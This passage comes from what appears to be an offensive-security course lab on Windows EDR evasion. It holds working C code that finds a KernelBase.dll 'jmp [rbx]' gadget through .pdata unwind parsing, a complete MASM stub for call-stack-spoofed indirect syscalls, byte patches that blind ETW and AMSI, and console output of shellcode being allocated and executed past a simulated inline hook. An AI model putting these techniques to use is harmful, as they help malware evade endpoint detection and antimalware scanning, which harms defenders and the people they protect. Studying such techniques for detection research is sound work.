2. We check if **`frameSize >= 0x48`** (at least 72 bytes, so our fake frame has plenty of room for the 32-byte shadow space + Arg 5 at `+0x28` + Arg 6 at `+0x30`).
3. We scan the machine code bytes of that function (from `BeginAddress + unwindInfo->SizeOfProlog` to `EndAddress - 2`) looking for the 2 bytes **`0xFF, 0x23`** (`jmp qword ptr [rbx]`)!

```text
BOOL FindGadgetInModule(HMODULE hModule, PVOID* outGadgetAddr, DWORD* outGadgetFrameSize)
{
    BYTE* base = (BYTE*)hModule;
    PIMAGE_DOS_HEADER dosHeader = (PIMAGE_DOS_HEADER)base;
    PIMAGE_NT_HEADERS64 ntHeaders = (PIMAGE_NT_HEADERS64)(base + dosHeader->e_lfanew);

    // Locate .pdata (IMAGE_DIRECTORY_ENTRY_EXCEPTION):
    IMAGE_DATA_DIRECTORY excDir = ntHeaders->OptionalHeader.DataDirectory[IMAGE_DIRECTORY_ENTRY_EXCEPTION];
    PRUNTIME_FUNCTION rtFuncs = (PRUNTIME_FUNCTION)(base + excDir.VirtualAddress);
    DWORD numFuncs = excDir.Size / sizeof(RUNTIME_FUNCTION);

    for (DWORD i = 0; i < numFuncs; i++)
    {
        DWORD frameSize = 0;
        if (!CalculateFunctionStackSize(base, &rtFuncs[i], &frameSize))
            continue;

        // We want a frame >= 0x48 bytes so it comfortably holds 6 syscall arguments:
        if (frameSize < 0x48)
            continue;

        PUNWIND_INFO unwindInfo = (PUNWIND_INFO)(base + rtFuncs[i].UnwindData);

        // Scan the function's machine code (after its prologue) for 'FF 23' (jmp qword ptr [rbx]):
        for (DWORD rva = rtFuncs[i].BeginAddress + unwindInfo->SizeOfProlog; rva < rtFuncs[i].EndAddress - 2; rva++)
        {
            if (base[rva] == 0xFF && base[rva + 1] == 0x23)
            {
                *outGadgetAddr      = (PVOID)(base + rva);
                *outGadgetFrameSize = frameSize;
                return TRUE;
            }
        }
    }
    return FALSE;
}
```

---

### 5.4 The MASM Stub in `syscalls.asm`: `DoSpoofedIndirectSyscall`

Look at how clean `DoSpoofedIndirectSyscall` is when we keep `main.exe`'s return address on the stack at `[RSP + dwGadgetFrameSize + 8]`:

```nasm
.data
    wSystemCall         DWORD 0
    qSyscallInsAddr     QWORD 0
    qGadgetAddr         QWORD 0
    dwGadgetFrameSize   DWORD 0
    qSavedRbx           QWORD 0
    qRestoreStubPtr     QWORD 0

.code

    PUBLIC PrepareSpoofedSyscall
    PrepareSpoofedSyscall PROC
        ; RCX (ECX) = ssn
        ; RDX       = syscallInstructionAddr (ntdll!Nt* + 0x12)
        ; R8        = gadgetAddr             (KernelBase.dll 'jmp qword ptr [rbx]')
        ; R9 (R9D)  = gadgetFrameSize        (Calculated from .pdata UNWIND_INFO)
        mov wSystemCall, ecx
        mov qSyscallInsAddr, rdx
        mov qGadgetAddr, r8
        mov dwGadgetFrameSize, r9d
        ret
    PrepareSpoofedSyscall ENDP

    PUBLIC DoSpoofedIndirectSyscall
    DoSpoofedIndirectSyscall PROC
        ; 1. Save caller's non-volatile RBX register:
        mov qSavedRbx, rbx

        ; 2. Carve out the Synthetic Stack Frame of size 'dwGadgetFrameSize' on RSP:
        ;    (Note: main.exe's real return address stays untouched at [OldRSP]!)
        mov eax, dwGadgetFrameSize
        sub rsp, rax                    ; Now main.exe's return address is at [RSP + rax]!

        ; 3. Copy Stack Arguments (Arg 5 and Arg 6) from caller's frame into our new frame:
        ;    In caller's frame, Arg 5 was at [OldRSP + 0x28] = [RSP + rax + 0x28].
        ;    After we 'push qGadgetAddr' (8 bytes) in Step 4, the syscall will read
        ;    Arg 5 from [NewRSP + 0x28], which right now is [RSP + 0x20]!
        mov r10, qword ptr [rsp + rax + 28h]  ; Read caller's Arg 5
        mov qword ptr [rsp + 20h], r10        ; Write into synthetic frame's Arg 5 slot
        mov r10, qword ptr [rsp + rax + 30h]  ; Read caller's Arg 6
        mov qword ptr [rsp + 28h], r10        ; Write into synthetic frame's Arg 6 slot

        ; 4. Push the KernelBase.dll 'jmp [rbx]' gadget address as the Syscall Return Address!
        push qGadgetAddr                ; Now [RSP] = qGadgetAddr (inside KernelBase.dll)!
                                        ; And [RSP + 8 + dwGadgetFrameSize] = main.exe return addr!

        ; 5. Point RBX to qRestoreStubPtr (which holds the address of RestoreAfterSyscall):
        lea rax, RestoreAfterSyscall
        mov qRestoreStubPtr, rax
        lea rbx, qRestoreStubPtr        ; [RBX] = address of RestoreAfterSyscall

        ; 6. Set up R10 and EAX (SSN) and jump to 'syscall; ret' inside ntdll.dll!
        mov r10, rcx
        mov eax, wSystemCall
        jmp qword ptr [qSyscallInsAddr]

    RestoreAfterSyscall:
        ; 7. When ntdll executes 'ret', it pops qGadgetAddr and jumps into KernelBase.dll.
        ;    KernelBase.dll executes 'jmp qword ptr [rbx]', landing right here!
        mov ecx, dwGadgetFrameSize
        add rsp, rcx                    ; Deallocate synthetic frame -> RSP now points to main's return addr!
        mov rbx, qSavedRbx              ; Restore caller's original RBX
        ret                             ; Normal 'ret' pops main's return address and returns to main()!
    DoSpoofedIndirectSyscall ENDP

END
```

---

## 6. Hands-On Lab 4.3: Build & Inspect the Spoofed Call Stack in `x64dbg`!

Take your working `windows/labs/lab-4.2/` code and copy it into `windows/labs/lab-4.3/` (`main.cpp` and `syscalls.asm`):

1. **In `main.cpp`:**
   - Add the `UNWIND_OP_CODES`, `UNWIND_CODE`, and `UNWIND_INFO` definitions from Section 5.1.
   - Add `CalculateFunctionStackSize` (Section 5.2) and `FindGadgetInModule` (Section 5.3).
   - In `main()`, resolve `KernelBase.dll` (`CustomGetModuleHandleA("kernelbase.dll")`) and call `FindGadgetInModule(hKernelBase, &gadgetAddr, &gadgetFrameSize)`.
   - Print the discovered `KernelBase.dll` gadget address (`0x...`) and its `.pdata` stack frame size (`0x...` bytes)!
   - Replace `PrepareSyscall` + `DoIndirectSyscall` with **`PrepareSpoofedSyscall` + `DoSpoofedIndirectSyscall`**!
2. **In `x64dbg`:**
   - Put a breakpoint on `DoSpoofedIndirectSyscall` and step (`F7`) until you land on **`syscall` (`0F 05`) inside `ntdll!NtAllocateVirtualMemory + 0x12`**.
   - **Look at two panels in `x64dbg` while paused on `syscall`:**
     1. **The Bottom-Right Stack Pane (`[RSP]`):**
        - At the top of the stack (`[RSP]`), instead of `return to main.main+...`, it now says **`return to kernelbase.<FunctionName>+<Offset>`**!
        - And if you scroll down `gadgetFrameSize` bytes on the stack pane, right at the bottom of that synthetic frame sits **`return to main.main+...`**!
     2. **Click the `Call Stack` tab at the top of `x64dbg`!**
        - Because `main.exe`'s return address is sitting at the **exact `.pdata` offset (`[RSP + 8 + gadgetFrameSize]`)** that `KernelBase.dll`'s `UNWIND_INFO` expects, `x64dbg`'s stack unwinder seamlessly unwinds through your fake `KernelBase.dll` frame and displays:
          - `ntdll.dll!NtAllocateVirtualMemory + 0x12`
          - **`kernelbase.dll!<FunctionName> + offset`** (Your spoofed frame!)
          - `main.exe!main + offset`
   - Now press **`F7` twice** (once to execute `syscall`, and once to execute `ntdll`'s `ret`):
     - Watch `RIP` jump out of `ntdll.dll` into **`Module: kernelbase.dll`** right onto **`jmp qword ptr ds:[rbx]` (`FF 23`)**!
     - Press **`F7` one more time**: watch `jmp qword ptr ds:[rbx]` teleport you back to `RestoreAfterSyscall`, deallocate the fake frame (`add rsp, rcx`), restore `RBX`, and execute `ret` back to `main()`!

---

## 7. User-Mode Telemetry Internals: ETW & AMSI

Alongside User-Mode API Hooks and Call Stack Walking, Windows includes two built-in telemetry subsystems that execute **inside User Mode (Ring 3)** of your own process: **ETW (Event Tracing for Windows)** and **AMSI (Antimalware Scan Interface)**.

### 7.1 Event Tracing for Windows (`ntdll!EtwEventWrite`)
- **How User-Mode ETW Works:**
  - Subsystems like the .NET CLR (`clr.dll`), PowerShell, WinINet, and `ntdll.dll` loader routines emit User-Mode telemetry events by calling **`ntdll!EtwEventWrite`**, which invokes the **`ntdll!NtTraceEvent`** syscall.
- **User-Mode Patching vs. Modern Detection Realities:**
  - Because `ntdll!EtwEventWrite` lives in Ring 3 inside your process, patching its first bytes with `33 C0 C3` (`xor eax, eax; ret`) causes User-Mode ETW writes from your process to return `0` (`STATUS_SUCCESS`) without entering the Kernel.
  - **Two Critical Caveats:**
    1. **User-Mode ETW $\neq$ Kernel ETW-Ti:** Patching `ntdll!EtwEventWrite` does **not** blind **Kernel ETW (`Microsoft-Windows-Threat-Intelligence`)**, which emits telemetry directly from `ntoskrnl.exe` in Ring 0.
    2. **`.text` Section Integrity Scanners:** Memory scanners (PE-sieve, Moneta, EDR sweeps) hash `ntdll.dll`'s `.text` pages in memory against `C:\Windows\System32\ntdll.dll` on disk. Modifying `.text` triggers Copy-On-Write (converting the page from shared `Image` to modified private working set) and exposes a byte mismatch.

### 7.2 Antimalware Scan Interface (`amsi.dll!AmsiScanBuffer`)
- **How AMSI Works:**
  - Scripting and managed runtimes (`powershell.exe`, `wscript.exe`, `.NET 4.8+` `Assembly.Load(byte[])`) load **`amsi.dll`** into the current process and call **`amsi!AmsiScanBuffer`** on decrypted script/assembly buffers in memory before executing them.
  - If `AmsiScanBuffer` sees invalid parameters (such as `length == 0`), it returns **`E_INVALIDARG` (`0x80070057`)** without forwarding the buffer to the AV provider (`MpOav.dll`).
  - Just like `EtwEventWrite`, overwriting `AmsiScanBuffer` in `.text` (`B8 57 00 07 80 C3` $\rightarrow$ `mov eax, 0x80070057; ret`) breaks `.text` image integrity, which is why modern evasion research favors **patchless hardware-breakpoint (`DR0–DR3`) + Vectored Exception Handler (VEH)** approaches over in-memory `.text` patching.

---

## 8. Lab 4.3 Results & Findings

### Implementation (`windows/labs/lab-4.3/main.cpp` & `syscalls.asm`)
In [`windows/labs/lab-4.3/main.cpp`](labs/lab-4.3/main.cpp) and [`windows/labs/lab-4.3/syscalls.asm`](labs/lab-4.3/syscalls.asm), we combined **PEB/EAT API Hashing**, **Halo's Gate Dynamic SSN Recovery**, **`.pdata` (`UNWIND_INFO`) Stack Frame Calculation**, and **`KernelBase.dll` Gadget Call Stack Spoofing**:
1. **Dynamic `.pdata` Parsing & Gadget Discovery (`FindGadgetInModule`):**
   - Parsed `KernelBase.dll`'s `IMAGE_DIRECTORY_ENTRY_EXCEPTION` (`.pdata`) directory and evaluated `UNWIND_INFO` opcodes (`CalculateFunctionStackSize`).
   - Automatically discovered a `jmp qword ptr [rbx]` (`FF 23`) gadget inside **`kernelbase.dll!SleepEx + 0x2A4`** (`0x00007FFEEE98BBD4`) with an exact `.pdata` stack frame size of **`0x68` (104) bytes**.
2. **6-Stage Spoofed Indirect Syscall Execution (`DoSpoofedIndirectSyscall`):**
   - **Entry (`0x00007FF73FD687F8`):** Caller (`main.exe!main+423`) return address `0x00007FF73FD68053` sits at `[RSP]` (`0x000000FF8B8FFA88`).
   - **Synthetic Frame Allocation:** Subtracted `0x68` (`dwGadgetFrameSize`) from `RSP`, copied Stack Arguments 5 & 6 into the synthetic frame, and pushed `0x00007FFEEE98BBD4` (`kernelbase.SleepEx+2A4`) onto `[RSP]` (`0x000000FF8B8FFA18`).
   - **Syscall Transition (`0x00007FFEF1162052`):** Jumped past the `E9 AABBCCDD` inline hook at `ntdll!NtAllocateVirtualMemory + 0x00` directly to `syscall` at `+0x12`.
   - **Clean Call Stack Unwinding:** In `x64dbg`'s `Call Stack` view, `RtlVirtualUnwind` cleanly unwound `0x70` bytes (`0x68` frame + `0x08` return address) from `0x000000FF8B8FFA18` (`kernelbase.SleepEx+2A4`) straight to `0x000000FF8B8FFA88` (`main.main+423`) $\rightarrow$ `BaseThreadInitThunk` $\rightarrow$ `RtlUserThreadStart`!
   - **Gadget Trampoline & Stack Cleanup:** After `syscall` returned `RAX = 0` (`STATUS_SUCCESS`), `ntdll`'s `ret` jumped to `0x00007FFEEE98BBD4` inside `kernelbase.dll`, which executed `FF 23` (`jmp qword ptr ds:[rbx]`), landing at `RestoreAfterSyscall` (`0x00007FF73FD68846`) to `add rsp, 0x68`, restore `RBX`, and return cleanly to `main()`!

### Console Output
```text
c:\Users\cyber\OneDrive\Desktop\labs\lab-4.3>main.exe
[!] NT functions resolved successfully.
[+] Found a gadget in KernelBase.dll at 0x00007FFEEE98BBD4 with stack size 0x68
[+] NtAllocateVirtualMemory first 8 bytes before the EDR hook: 4C 8B D1 B8 18 0 0 0
[!] Patching first 5 bytes of NtAllocateVirtualMemory.
[+] Patched successfully. The first 8 bytes of NtAllocateVirtualMemory after patch: E9 AA BB CC DD 0 0 0
[!] Resolving SSNs for NT functions.
[!] WARNING: A hook was detected at: 0x00007FFEF1162040
[+] Recovered SSN for the NtAllocateVirtualMemory: 0x18 and syscall gadget address: 0x00007FFEF1162052, NtProtectVirtualMemory: 0x50 and syscall gadget address: 0x00007FFEF1162752, NtWriteVirtualMemory: 0x3A and syscall gadget address(not used for direct syscall): 0x00007FFEF1162492
[!] Making the indirect syscall for NtAllocateVirtualMemory.
[+] Spoofed indirect syscall successful, copying payload with direct syscall and protecting the allocated memory.
[+] Copied the payload and protected allocated memory successfully. Triggering execution.
[+] Shellcode function returned: 1337
[!] Restoring NtAllocateVirtualMemory hook.
[+] Restored NtAllocateVirtualMemory hook.
```

### Step-by-Step Verification in System Informer & x64dbg

#### 1. Console Output & Module Layout (`KernelBase.dll` at `0x7FFEEE900000`)


#### 2. Entering `DoSpoofedIndirectSyscall` (`RSP = 0x000000FF8B8FFA88` -> `main.main+423`)


#### 3. Paused on `syscall` Inside `ntdll.dll` (`[RSP]` Spoofed to `kernelbase.SleepEx+2A4`!)
Look at the bottom-right stack pane: `[0x000000FF8B8FFA18]` (`RSP`) holds **`kernelbase.SleepEx+2A4` (`0x00007FFEEE98BBD4`)**, and exactly `0x70` (`0x68 + 8`) bytes below it at `[0x000000FF8B8FFA88]` sits **`return to main.main+423`**!


#### 4. Live Unwound `Call Stack` Tab in x64dbg (Seamless `.pdata` Unwinding!)
Breaking directly on `0x00007FFEF1162052` (`ntdll.NtAllocateVirtualMemory+12`) and inspecting `x64dbg`'s `Call Stack` tab shows the exact spoofed call chain—`ntdll.NtAllocateVirtualMemory+12` $\rightarrow$ **`kernelbase.SleepEx+2A4`** (`Size: 70` hex = `0x68` synthetic frame + `0x08` return address) $\rightarrow$ `main.main+423` $\rightarrow$ `BaseThreadInitThunk` $\rightarrow$ `RtlUserThreadStart`:


#### 5. Returning From `ntdll.dll` Into `Module: kernelbase.dll` (`FF 23` — `jmp qword ptr ds:[rbx]`)
Stepping past `ntdll!NtAllocateVirtualMemory`'s `ret` pops `0x00007FFEEE98BBD4` and lands inside `kernelbase.dll` (`RAX = 0` `STATUS_SUCCESS`) right on `jmp qword ptr ds:[rbx]`:
![x64dbg Paused Inside kernelbase.dll on FF 23 (jmp qword ptr ds:[rbx]) After Syscall Return](assets/lab-4.3/05-x64dbg-kernelbase-jmp-rbx-gadget.png)

#### 6. Landing at `RestoreAfterSyscall` (`add rsp, 0x68` & Clean Return to `main()`)
One step (`F7`) later, `kernelbase.dll`'s `jmp qword ptr ds:[rbx]` teleports execution back to `RestoreAfterSyscall` (`0x00007FF73FD68846`), which deallocates the `0x68`-byte synthetic frame, restores `RBX`, and returns `STATUS_SUCCESS` to `main()`:


### Key Debugging & Evasion Notes
1. **`x64dbg` `CallstackCache` Quirk (`F7` Single-Step vs. `F9` Breakpoint):**
   - In `x64dbg` (`src/dbg/stackinfo.cpp`), unwound call stacks are cached by stack pointer alone (`CallstackCache.find(csp)`). If you single-step (`F7`) over `push qGadgetAddr` inside `DoSpoofedIndirectSyscall`, `x64dbg` caches `DoSpoofedIndirectSyscall+2A` as Frame 0 for that `RSP` value because the subsequent `jmp [qSyscallInsAddr]` does not change `RSP`. Breaking directly on `ntdll!NtAllocateVirtualMemory+12` via `F9` (as shown in Image #4 above) avoids the stale cache entry and displays the true live stack starting at `ntdll.NtAllocateVirtualMemory+12`.
2. **Single-Frame Spoofing vs. Multi-Frame Stack Truncation (Unbacked Shellcode):**
   - When executing from a disk-backed `.exe` (`main.exe`), inserting a single synthetic `KernelBase.dll` frame restores a normal `ntdll` $\leftarrow$ `kernelbase` $\leftarrow$ `main.exe` chain.
   - When executing from **unbacked `Private` memory** (such as a Reflectively Mapped DLL from Module 4.1), full-chain stack spoofers (*SilentMoonwalk*, *Draugr*, *VulcanRaven*) push multiple synthetic frames (`KernelBase.dll` $\rightarrow$ `kernel32!BaseThreadInitThunk` $\rightarrow$ `ntdll!RtlUserThreadStart`) followed by a **`0x0000000000000000` (`NULL`)** return address. Because `RtlVirtualUnwind` terminates when `To == 0x0`, the stack walker stops at `RtlUserThreadStart` and never reaches the unbacked caller frames deeper on the stack.


